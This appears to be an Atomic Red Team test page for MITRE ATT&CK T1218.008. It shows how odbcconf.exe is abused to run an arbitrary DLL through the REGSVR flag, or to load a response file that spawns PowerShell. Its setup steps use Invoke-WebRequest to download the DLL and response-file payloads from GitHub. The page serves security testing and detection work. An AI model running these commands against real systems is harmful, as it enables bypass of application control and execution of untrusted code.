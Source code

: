 # T1218.008 - Signed Binary Proxy Execution: Odbcconf
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1218/008)
<blockquote>

Adversaries may abuse odbcconf.exe to proxy execution of malicious payloads. Odbcconf.exe is a Windows utility that allows you to configure Open Database Connectivity (ODBC) drivers and data source names.(Citation: Microsoft odbcconf.exe) The Odbcconf.exe binary may be digitally signed by Microsoft.

Adversaries may abuse odbcconf.exe to bypass application control solutions that do not account for its potential abuse. Similar to [Regsvr32](https://attack.mitre.org/techniques/T1218/010), odbcconf.exe has a <code>REGSVR</code> flag that can be misused to execute DLLs (ex: <code>odbcconf.exe /S /A &lbrace;REGSVR "C:\Users\Public\file.dll"&rbrace;</code>). (Citation: LOLBAS Odbcconf)(Citation: TrendMicro Squiblydoo Aug 2017)(Citation: TrendMicro Cobalt Group Nov 2017) 


</blockquote>

## Atomic Tests

- [Atomic Test #1 - Odbcconf.exe - Execute Arbitrary DLL](#atomic-test-1---odbcconfexe---execute-arbitrary-dll)

- [Atomic Test #2 - Odbcconf.exe - Load Response File](#atomic-test-2---odbcconfexe---load-response-file)


<br/>

## Atomic Test #1 - Odbcconf.exe - Execute Arbitrary DLL
Execute arbitrary DLL file stored locally.

**Supported Platforms:** Windows


**auto_generated_guid:** 2430498b-06c0-4b92-a448-8ad263c388e2





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| dll_payload | DLL to execute | path | PathToAtomicsFolder&#92;T1218.008&#92;src&#92;Win32&#92;T1218-2.dll|


#### Attack Commands: Run with `command_prompt`! 


```cmd
odbcconf.exe /S /A {REGSVR "#{dll_payload}"}
```




#### Dependencies:  Run with `powershell`!
##### Description: T1218-2.dll must exist on disk at specified location (#{dll_payload})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{dll_payload}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{dll_payload}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.008/src/Win32/T1218-2.dll" -OutFile "#{dll_payload}"
```




<br/>
<br/>

## Atomic Test #2 - Odbcconf.exe - Load Response File
Execute arbitrary response file that will spawn PowerShell.exe.
Source files: https://github.com/woanware/application-restriction-bypasses

**Supported Platforms:** Windows


**auto_generated_guid:** 331ce274-f9c9-440b-9f8c-a1006e1fce0b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| rsp_file_name | Response file name to load | string | T1218.008.rsp|
| rsp_file_path | Response file path | string | PathToAtomicsFolder&#92;T1218.008&#92;bin&#92;|


#### Attack Commands: Run with `command_prompt`! 


```cmd
cd "#{rsp_file_path}"
odbcconf.exe -f "#{rsp_file_name}"
```




#### Dependencies:  Run with `powershell`!
##### Description: T1218.008.rsp must exist on disk at specified location (#{rsp_file_path}#{rsp_file_name})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{rsp_file_path}#{rsp_file_name}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.008/bin/T1218.008.rsp" -OutFile "#{rsp_file_path}#{rsp_file_name}"
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.008/bin/o.dll" -OutFile "#{rsp_file_path}\o.dll"
```




<br/>
